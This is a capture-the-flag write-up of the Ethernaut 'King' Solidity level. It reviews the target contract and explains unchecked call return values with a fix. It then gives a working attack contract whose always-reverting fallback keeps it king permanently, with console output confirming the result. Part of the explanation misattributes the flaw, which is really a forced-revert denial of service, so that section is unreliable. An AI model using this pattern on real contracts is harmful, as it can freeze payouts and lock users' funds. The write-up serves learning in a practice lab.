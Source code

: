 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel9.svg">

# Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```

Challenge's message.

>The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD
Such a fun game. Your goal is to break it.
When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.


At the beginning of the contract, there are defined variables such as king, owner and prize. Also, these variables are assigned when the contract is created in the payable constructor. After the definition of king and king's prize, there is a specific function called ``receive()``that works to remand the new king's prize to the ex-king address and update the new king address and king's prize when someone is the owner or sends more than the king's ether to the contract. And finally, there is a function which returns us to current king address.

As with every challenge, this contract has some potential issues. One of these issues like forgot to check the external process status. Here we go...

# Subverting

Before talking about my attack contract, I want to explain some topics. If you know about the vulnerability of **uncheck calls returns value**, you would skip this part.

### Calls In Solidity 

There are a number of ways of performing external calls in Solidity. Sending ether to external accounts is commonly performed via the ``transfer`` method. However, the ``send`` function can also be used, and for more versatile external calls the ``call`` **opcode** can be directly employed in Solidity. You can start an external calls in the contract with send ether to other contracts by

  - ``transfer`` :  (2300 gas, throws error)
  - ``send`` : (2300 gas, returns bool)
  - ``call`` : (forward all gas or set gas, returns bool)

this methods. Here we can see that when we use to send or call to send ether or perform any transactions, it returns a boolean value i.e. true or false. Unless you check this return value, you will face something critical vulnerability.

### Security Issue : Uncheck Calls Returns Value

 The ``call`` and ``send`` functions return a boolean indicating whether the call succeeded or failed. As a result, if the call return value is not checked, execution will resume even if the called contract throws an exception. If the call fails accidentally or an attacker forces the call to fail, this may cause unexpected behavior in the subsequent program logic. Here is a contract which too has an example of this problem.
 
 ```solidity
 
contract Lotto {
    bool public payedOut = false;
    address public winner;
    uint public winAmount;

    // ... extra functionality here

    function sendToWinner() public {
        require(!payedOut);
        winner.send(winAmount);
        payedOut = true;
    }

    function withdrawLeftOver() public {
        require(payedOut);
        msg.sender.send(this.balance);
    }
}
 
 ```
 This represents a Lotto-like contract, where a ``winner`` receives ``winAmount`` of ether, which typically leaves a little left over for anyone to withdraw.

The vulnerability exists on sendToWinner() function, where a send is used without checking the response. In this example, a winner whose transaction fails (either by running out of gas or by being a contract that intentionally throws in the fallback function) allows ``payedOut`` to be set to ``true`` regardless of whether ether was sent or not. In this case, **anyone can withdraw the winner’s winnings via the withdrawLeftOver function**.

### Prevention

Actually, this vulnerability easily fix it. The only thing must to do is check the returns value of the process and set the gas limit of transaction. Here is basic example of this solution.

```solidity

// Vulnerable Code

  function Transfer(address _a)public{
      (bool success, bytes memory data) = _a.call{value: msg.value,gas: 5000}();
  }

```

```solidity

// Safe Code

function Transfer(address _a)public{
      (bool success, bytes memory data) = _a.call{value: msg.value,gas: 5000}();
      require(success,"Transfer failed");
  }

```
As you see in the contracts, just require check and gas limit resolve the problem.
## Attack Contract

Here is my attack contract.

```solidity
pragma solidity ^0.8.0;

import './King.sol';

contract Attack{

    constructor(address payable _target) payable{
        address(_target).call{value: msg.value}("");
    }

    fallback()external{
        revert("Hack ponzi");
    }
}
```

First thing first is as always solidity version and import our target contract's file into attack contract. After that, get the instance of target contract and call it with sending more than king's prize in the constructor. When the ``call`` method works, the target contract will send ether to ex king's address and updated the attack contract as new king. Also, when someone wants to be a new king of target contract, he/she won't be a new king because of our fallback() function will have blocked this process. 

To explain more clearly, if the target contract change to kingship as different from attack contract, it will send ether to this contract but in the fallback() will have reverted to transaction. In this way, we'll stay king of the target contract every time.

### Attack Senario

Check the king of target contarct.

```js
await contract._king()
'0x3049C00639E6dfC269ED1451764a046f7aE500c6'
```

Check the king's prize.

```js

fromWei(await contract.prize())
'0.001'

```
When we deploy the attack contract, we must send higher than this price. It equals to 1000000000000000 wei. Let's send 2000000000000000 wei to attack contract's constructor and deploy it.

<p align="center"><img src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/King/src/deploy.png"></p>

And we get kingship of the contract forever. As ponzi getsXD

```js
await contract._king()
'0xE27F0dB592D69A14f5FD26ba434056e22C375388'
```

Challange's message.

> Most of Ethernaut's levels try to expose (in an oversimplified form of course) something that actually happened — a real hack or a real bug.
In this case, see: King of the Ether and King of the Ether Postmortem

**_by wasny0ps_**

